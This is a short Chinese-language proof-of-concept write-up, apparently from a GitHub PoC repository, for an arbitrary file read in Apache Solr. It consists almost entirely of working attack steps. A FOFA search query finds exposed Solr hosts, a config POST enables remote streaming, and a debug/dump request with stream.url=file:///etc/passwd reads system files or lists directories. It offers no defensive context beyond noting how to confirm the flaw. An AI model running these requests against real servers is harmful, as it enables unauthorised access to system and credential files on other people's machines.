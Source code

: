 # Apache Solr 全版本任意读取文件漏洞
## 资产搜索
fofa app="Solr" || app="Apache-Solr"
## POC
- url访问：  
`http://ip:port/solr/admin/cores?indexInfo=false&wt=json`  
![](img/1.png)  
- POST请求：
```url
POST /solr/{name}/config

{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```
出现这个报错说明漏洞存在  
![](img/1.png)  
- 任意文件读取：
```url
POST /solr/{name}/debug/dump?param=ContentStreams
Content-Type: application/x-www-form-urlencoded

stream.url=file:///etc/passwd
```
![](img/3.png)  
路径写文件夹的话会列举出来文件夹下面的东西，和ls一样。